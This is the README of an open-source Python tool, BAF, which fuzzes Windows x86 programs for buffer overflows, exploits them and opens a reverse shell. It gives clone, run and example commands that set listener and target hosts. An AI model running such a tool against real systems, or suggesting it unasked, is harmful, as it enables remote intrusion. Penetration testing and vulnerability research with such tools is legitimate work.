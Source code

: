 # BAF

Python Buffer Overflow scanner.

## Description

BAF is a tool used to scan Winx86 applications for Buffer Overflow Vulnerabilities. It's able to fuzz and exploit vulnerable applications and create a reverse shell.

## Getting Started

### Installation
```
git clone https://github.com/TralseDev/BAF.git
```

### Executing program
```
python3 main.py
```

### Examples:
```
python3 main.py --lhost 127.0.0.1 --lport 1337 --rhost 127.0.0.1 --rport 2337 --prefix="OVERFLOW_COMMAND" --timeout=5 --littleEndian
```

![Example video](https://github.com/TralseDev/BAF/blob/main/examples/example.GIF)

## Help

```
python3 main.py -h
```

## Authors

Tralse

## Version History

* 1.0
    * Stable version
* 0.0
    * Beta phase

## License

This project is licensed under the GNU General Public License v3.0 (GNU GPLv3 License)

## TODOs
- offline scanner
- fuzz max length of chars needed to trigger BOF
- multi-threading
- save data to not restart all scans
- `-o` flag (for output > file -> logger/logging_file)
- automatic binary debug to save time and be more precise
